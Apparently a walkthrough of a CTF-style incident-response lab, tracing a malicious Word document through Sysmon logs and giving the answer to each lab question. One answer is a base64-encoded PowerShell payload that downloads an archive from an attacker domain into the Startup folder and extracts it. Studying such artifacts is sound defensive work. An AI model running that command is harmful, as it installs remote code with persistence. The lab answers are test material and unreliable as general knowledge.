 Tempest Incident

In this incident, you will act as an Incident Responder from an alert triaged by one of your Security Operations Center analysts. The analyst has confirmed that the alert has a **CRITICAL** severity that needs further investigation.

As reported by the <span style="color: #d4d0ca;">SOC</span> analyst, the intrusion started from a malicious document. In addition, the analyst compiled the essential information generated by the alert as listed below:

- The malicious document has a **.doc** extension.
- The user downloaded the malicious document via **chrome.exe**.
- The malicious document then executed a chain of commands to attain code execution.

Investigation Guide

To aid with the investigation, you may refer to the cheatsheet crafted by the team applicable to this scenario:

- Start with the events generated by <span style="color: #d4d0ca;">Sysmon</span>.
- EvtxEcmd, Timeline Explorer, and SysmonView can interpret <span style="color: #d4d0ca;">Sysmon</span> logs.
- Follow the child processes of WinWord.exe.
- Use filters such as ParentProcessID or ProcessID to correlate the relationship of each process.
- We can focus on Sysmon events such as Process Creation (Event ID 1) and <span style="color: #d4d0ca;">DNS</span> Queries (Event ID 22) to correlate the activity generated by the malicious document.

Significant Data Sources:

- <span style="color: #d4d0ca;">Sysmon</span>

Answer the questions below

The user of this machine was compromised by a malicious document. What is the file name of the document?

![image](https://github.com/user-attachments/assets/17fc0972-bf5c-453e-a0a2-c9c45b54d531)

ANS: free_magicules.doc

What is the name of the compromised user and machine?

*Format: username-machine name*

![image](https://github.com/user-attachments/assets/f8b59666-3a96-4a54-a7fd-d36af10205e2)



ANS: benimaru-TEMPEST

What is the PID of the Microsoft Word process that opened the malicious document?

Filter all use of "free_magicules.doc" and look for event id 1 (process creation)

![image](https://github.com/user-attachments/assets/bd34230f-af1a-471c-a8f1-ce9f7b5deb76)


ANS: 496

Based on Sysmon logs, what is the IPv4 address resolved by the malicious domain used in the previous question?

Take note of the record number

![image](https://github.com/user-attachments/assets/0aa2c51d-9aa6-4a0d-a39d-6bdd8e11f0ac)


With filter process id 496 (winword.exe). From the record number and moving forward event id 1 (process creation) event id 13 (registry event)  event id 11 (fire create) event id 3 (Network connection) event id 15 (FileCreateStreamHash) event id 22 (DNS event). All of which from user benimaru.

![image](https://github.com/user-attachments/assets/af2145b5-e640-4300-a3eb-4579cbcbd8d8)


Looking through the event id 3 and 22

![image](https://github.com/user-attachments/assets/3a2185e8-c362-4f4d-9b19-678d05c15053)


ANS: 167.71.199.191

What is the base64 encoded string in the malicious payload executed by the document?

We know that the process id that opened the malicious file is 496. Now we have to look for any child process it has created by filtering it as a parent process id. In this case, it's on "Payload Data5" column

![image](https://github.com/user-attachments/assets/5a23f57a-4462-4e7a-84ca-5db8d1aa38a1)


ANS: JGFwcD1bRW52aXJvbm1lbnRdOjpHZXRGb2xkZXJQYXRoKCdBcHBsaWNhdGlvbkRhdGEnKTtjZCAiJGFwcFxNaWNyb3NvZnRcV2luZG93c1xTdGFydCBNZW51XFByb2dyYW1zXFN0YXJ0dXAiOyBpd3IgaHR0cDovL3BoaXNodGVhbS54eXovMDJkY2YwNy91cGRhdGUuemlwIC1vdXRmaWxlIHVwZGF0ZS56aXA7IEV4cGFuZC1BcmNoaXZlIC5cdXBkYXRlLnppcCAtRGVzdGluYXRpb25QYXRoIC47IHJtIHVwZGF0ZS56aXA7Cg==

What is the CVE number of the exploit used by the attacker to achieve a remote code execution?

*Format: XXXX-XXXXX*

After searching around we found this in lolbas

![image](https://github.com/user-attachments/assets/0e313d89-df2a-4dff-8e41-c5c31ece67a3)


ANS: 2022-30190
